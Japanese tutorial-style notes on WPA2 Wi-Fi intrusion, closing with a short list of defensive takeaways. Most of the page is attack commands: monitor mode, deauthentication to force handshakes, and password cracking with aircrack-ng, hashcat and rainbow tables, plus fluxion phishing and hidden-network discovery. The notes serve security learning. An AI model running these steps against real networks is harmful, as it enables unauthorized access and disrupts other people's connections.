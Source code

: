 # ワイヤレス侵入

WPA2 の想定

## モード変更

WiFi アダプタには manage, monitor の 2 種類のモードがある。  
攻撃に使われるのは monitor モード。

```shell
# ネットワークインターフェース確認
ifconfig

# モードを確認（※デフォルトは managed）
iwconfig

# インターフェースをダウン
sudo ifconfig <interface name> down

# モニターモードに変更
sudo iwconfig <interface name> mode monitor

# インターフェースをアップ
sudo ifconfig <interface name> up

# モードを確認（※monitor に変わっていたら成功）
iwconfig
```

## WiFi アダプタが動作していないときに実行するスクリプト

```shell
sudo airmon-ng check kill
sudo ifconfig <interface name> down
sudo iwconfig <interface name> mode monitor
sudo ifconfig <interface name> up
sudo systemctl restart networking
sudo nmcli networking on
```

## 4way ハンドシェイクのキャプチャ取得

### パケットをダンプ（チャンネルとアクセスポイントの BSSID を確認）

```shell
sudo airodump-ng <interface name>
```

### パケットをダンプしてファイル出力

```shell
sudo airodump-ng -c <channel> --bbsid <BSSID> -w <filename> <interface name>
```

### 非認証攻撃でクライアントに再接続させる（再接続時の 4way ハンドシェイクをキャプチャする目的）

```shell
sudo aireplay-ng -0 0 -a <MAC> <interface name>
```

#### cap ファイルは WireShark で開ける

```shell
wireshark <filename>-01.cap
```

## aircrack-ng

### ワードリストを使ってパスワードをクラック

```shell
aircrack-ng -w /usr/share/wordlists/rockyou.txt <filename>-01.cap
```

### パイプで渡すこともできるが、マッチしても処理が止まらないため使えないと思う

```shell
crunch 12 12 -t abcdef@@@%%% | aircrack-ng -w - SCAN-01.cap
```

## hashcat

GPU を使うため、aircrack-ng より速い

### hcxtools をインストール

```shell
sudo apt install hcxtools
```

### cap を hashcat で扱える形式に変換

```shell
hcxpcapngtool -o output.22000 input.cap
```

### ワードリストを使ってパスワードをクラック

```shell
hashcat -m 22000 output.22000 wordlist.txt
```

## レインボーテーブル

計算負荷の高い PMK を事前に計算しておく手口

### レインボーテーブル作成（ESSID とパスワードの組から PMK が生成される）

PMK = PBKDF2(HMAC-SHA1, パスワード, ESSID, 4096, 256-bit)

```shell
airolib-ng <レインボーテーブル名> --import essid essid.txt
airolib-ng <レインボーテーブル名> --import passwd password.txt
airolib-ng <レインボーテーブル名> --batch
airolib-ng <レインボーテーブル名> --stats
```

### テーブル内容確認

```shell
airolib-ng <レインボーテーブル名> --sql 'select * from essid'
airolib-ng <レインボーテーブル名> --sql 'select * from passwd'
airolib-ng <レインボーテーブル名> --sql 'select * from pmk'
```

### テーブルクリア

```shell
airolib-ng <レインボーテーブル名> --clean all
```

### レインボーテーブルを使ってクラックする

PMK とナンス、MAC を使って PTK が生成される  
PTK = PRF-512(PMK + ANonce + SNonce + MAC アドレス情報)

```shell
aircrack-ng -r <レインボーテーブル名> SCAN-01.cap
```

## fluxion

インタラクティブなツール。フィッシングでユーザーにパスワードを入力させるような機能もある。

https://github.com/FluxionNetwork/fluxion

## Hidden ネットワーク

### ①HiddenNetwork は、ESSID が空欄で表示されるが、BSSID は表示される

```shell
airodump-ng <interface name>
```

### ② BSSID に接続しているクライアントを見つける

```shell
airodump-ng --bssid <BSSID> -c <channel> <interface name>
```

### ③ 特定のクライアントにだけ認証解除パケットを送る（※② は起動したまま）

```shell
aireplay-ng --deauth 5 -a <BSSID> -c <client MAC> <interface name>
```

再接続が行われると、② の表示に ESSID が表示される。あとは通常の場合と同じ。

## セキュリティ視点

- WPA2 でリスト生成困難な程度に強力なパスワードを設定していれば、機械的にはクラックできない
- fluxion 等を使ったフィッシングには注意が必要（偽装ホストに誘導してパスワードを入力させる手口）
- レインボーテーブルは ESSID に対して作られるため、定期的にネットワーク名を変更するのは有効
- 逆に、パスワード変更はレインボーテーブルに対しては効果が無い可能性がある
- 隠しネットワークは、セキュリティ的な観点ではまったく無意味
